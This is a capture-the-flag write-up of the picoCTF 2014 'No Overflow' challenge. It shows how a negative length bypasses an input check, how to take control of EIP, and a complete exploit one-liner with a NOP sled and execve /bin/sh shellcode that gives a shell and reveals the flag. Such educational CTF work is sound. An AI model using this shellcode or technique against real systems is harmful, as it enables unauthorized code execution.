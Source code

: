 ```yaml
---
layout: post
title: "picoCTF 2014 No Overflow"
date: 2014-11-07 20:21:04 -0500
author: [barrebas]
comments: true
categories: [picoctf]
---
```


### Solved by barrebas

No Overflow is a 140 point challenge. 

This program tries to prevent buffer overflows by first asking for the input length. 

```bash
bas@tritonal:~/tmp/picoctf$ ./no_overflow 
How long is your name?
10
What is your name?
BBBBBBBBBBBBBBBBBBBBBBBBBB
Hello, BBBBBBBBBBW
```

It disregards the rest of the ouput. However, the program uses `scanf`. If we supply `-1` as the length, we can bypass the overflow check:

```bash
bas@tritonal:~/tmp/picoctf$ (echo -1; python -c 'print "A"*300') | ./no_overflow 
How long is your name?
What is your name?
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...snip...
Segmentation fault
```

From here, it is easy to control EIP:

```bash
bas@tritonal:~/tmp/picoctf$ (echo -1; python -c 'print "A"*268+"BBBB"'; echo) | ./no_overflow
How long is your name?
What is your name?
Hello, AAAAAAAAAA...snip...
Segmentation fault (core dumped)
bas@tritonal:~/tmp/picoctf$ gdb no_overflow core
...snip...
Core was generated by `./no_overflow'.
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
```

Quickly checking on the remote server if there is any protection on the binary:

```bash
pico1139@shell:/home/no_overflow$ readelf -l no_overflow 

Elf file type is EXEC (Executable file)
Entry point 0x8048430
There are 9 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00120 0x00120 R E 0x4
  INTERP         0x000154 0x08048154 0x08048154 0x00013 0x00013 R   0x1
      [Requesting program interpreter: /lib/ld-linux.so.2]
  LOAD           0x000000 0x08048000 0x08048000 0x0080c 0x0080c R E 0x1000
  LOAD           0x000f08 0x08049f08 0x08049f08 0x0012c 0x00130 RW  0x1000
  DYNAMIC        0x000f14 0x08049f14 0x08049f14 0x000e8 0x000e8 RW  0x4
  NOTE           0x000168 0x08048168 0x08048168 0x00044 0x00044 R   0x4
  GNU_EH_FRAME   0x0006e0 0x080486e0 0x080486e0 0x0003c 0x0003c R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
  GNU_RELRO      0x000f08 0x08049f08 0x08049f08 0x000f8 0x000f8 R   0x1
```

The stack is executable! Furthermore, ASLR is not enabled. This makes it easy to stick in a [shellcode](http://shell-storm.org/shellcode/files/shellcode-827.php) plus a NOP sled and return to an address on the stack:

```bash
pico1139@shell:/home/no_overflow$ (echo -1; python -c 'print "A"*268+"\xd0\xd6\xff\xff"+"\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'; cat) | ./no_overflow
How long is your name?
What is your name?
Hello, AAAAAAAAAAAAAAAAAAAAAA...snip...

id
uid=11066(pico1139) gid=1007(no_overflow) groups=1017(picogroup)
cat flag.txt
what_is_your_sign
```
